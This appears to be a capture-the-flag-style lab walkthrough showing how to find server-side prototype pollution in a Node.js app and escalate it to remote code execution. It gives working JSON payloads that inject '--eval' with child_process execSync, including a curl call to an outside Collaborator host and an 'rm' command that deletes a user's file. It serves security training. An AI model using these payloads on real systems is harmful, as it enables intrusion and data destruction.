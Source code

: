 ## Prototype Pollution Exploit
### Identify a Prototype Pollution Source

In Repeater, add a new property to the JSON with the name `__proto__`, containing an object with a json spaces property:
```json
"__proto__": {
    "json spaces": 10
}
```

- Send the request.

- In the Response panel, switch to the Raw tab. Notice that the JSON indentation has increased based on the value of your injected property. This strongly suggests that you have successfully polluted the prototype.


### Probe for Remote Code Execution

- In the browser, navigate to the admin panel and observe that there's a button for running maintenance jobs.

- Click the button and observe that this triggers background tasks that clean up the database and filesystem. This is a classic example of functionality that may spawn Node.js child processes.

- Try polluting the prototype with a malicious execArgv property that adds the --eval argument to the spawned child process. Use this to call the execSync() sink, passing in a command that triggers an interaction with the public Burp Collaborator server. For example:

  ```json
  "__proto__": {
      "execArgv": [
          "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
      ]
  }
  ```

- Send the request.

- In the browser, go to the admin panel and trigger the maintenance jobs again. Notice that these have both failed this time.
- In Burp, go to the Collaborator tab and poll for interactions. Observe that you have received several DNS interactions, confirming the remote code execution.
### 1Craft an Exploit
- In Repeater, replace the curl command with a command for deleting Carlos's file:
  ```json
  "__proto__": {
      "execArgv": [
          "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
      ]
  }
  ```
- Send the request.
- Go back to the admin panel and trigger the maintenance jobs again. Carlos's file is deleted, and the lab is solved.

